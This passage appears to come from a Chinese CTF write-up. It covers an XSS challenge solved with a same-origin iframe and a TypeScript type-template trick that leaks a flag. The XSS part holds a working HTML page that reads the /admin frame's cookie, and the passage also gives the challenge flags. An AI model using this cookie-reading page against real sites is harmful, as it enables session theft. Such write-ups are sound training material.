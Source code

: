 </details>

<br>


### 9. 第三新XSS

#### 巡猎

目标是：`/admin` 下设置了 cookie，需要注册一个链接，去拿出 cookie

如果 `X-Frame-Options` 设置为 `SAMEORIGIN`，就能被同源的页面嵌入。本题中没有设置

所以使用 `iframe` 嵌入，就能获得 `/admin` 下的 cookie

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8" />
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <title>Parent Page</title>
    </head>
    <body>
        <iframe src="../admin" id="childFrame" width="600" height="400"> </iframe>
        <script>
            var iframeWin = document.getElementById('childFrame').contentWindow

            setTimeout(function () {
                cookie = iframeWin.document.cookie
                console.log(cookie)
                document.querySelector('title').innerHTML = cookie
            }, 1000)
        </script>
    </body>
</html>
```

> 注意提交时使用 http 的网址

得到 `flag{TotALlY-NO-sECuRItY-in-ThE-sAMe-OrIGiN}`

<br>

### 10. 简单的打字稿

#### Super Easy

源码要求输出的信息中不能直接包含 `flag`

查找资料，无法在运行时打印类型。GPT 帮我查到用类型模板有可能实现，并给出了移除第一个字符的模板

```typescript
type RemoveFirstChar<T extends string> =
  T extends `${infer FirstChar}${infer Rest}` ? Rest : never

type Result = RemoveFirstChar<flag1>
var t: Result = 'a'
```

